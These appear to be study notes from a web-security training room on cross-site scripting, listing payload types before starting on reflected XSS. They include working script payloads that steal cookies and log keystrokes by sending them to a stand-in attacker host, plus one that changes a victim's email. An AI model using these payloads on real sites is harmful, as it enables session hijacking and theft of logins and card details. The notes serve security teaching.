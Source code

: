  [[week1]]

# **Cross-Site Scripting**: 

better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.

**What is a payload?**

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

`<script>alert('XSS');</script>`

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
  
**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

`<script>user.changeEmail('attacker@hacker.thm');</script>`  

Now that the email address for the account has changed, the attacker may perform a reset password attack

----------------------------------------------------------------------------------
# **Reflected XSS**  

  

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.
